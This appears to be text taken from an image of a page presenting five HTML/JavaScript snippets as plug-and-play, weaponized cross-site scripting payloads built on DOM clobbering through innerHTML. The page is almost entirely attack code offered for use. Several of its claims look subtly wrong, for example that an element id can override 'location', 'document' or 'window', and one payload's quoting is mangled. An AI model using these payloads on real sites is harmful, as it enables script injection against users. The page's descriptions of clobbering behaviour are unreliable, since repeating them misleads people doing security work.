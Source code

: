 

## Interactive Payloads

Below are innerHTML injection strings that demonstrate full chain XSS using DOM clobbering. These examples are plug-and-play, showcasing practical weaponization of clobbering techniques.

### Basic XSS via outerHTML
```html
<div id="x"></div>
<script>
document.getElementById('x').innerHTML = `<a id="foo" name="outerHTML" href="cid:"onerror=alert(1)//"></a>`;
alert(foo.outerHTML); // triggers XSS
</script>
```

### Clobbering location and Triggering Navigation
```html
<div id="y"></div>
<script>
document.getElementById('y').innerHTML = `<a id="location" href="javascript:alert(2)"></a>`;
location.href; // triggers alert(2)
</script>
```

### Overriding alert and Causing Confusion
```html
<div id="z"></div>
<script>
document.getElementById('z').innerHTML = `<form id="alert"></form>`;
try {
  alert('This should fail');
} catch (e) {
  console.log('Alert is overridden:', e);
}
</script>
```

### Clobbering document and Breaking Functionality
```html
<div id="w"></div>
<script>
document.getElementById('w').innerHTML = `<form id="document"></form>`;
console.log(document.body); // Error: document.body is undefined
</script>
```

### Clobbering window Properties
```html
<div id="v"></div>
<script>
document.getElementById('v').innerHTML = `<form id="window"></form>`;
console.log(window.location); // Error or overridden
</script>
```
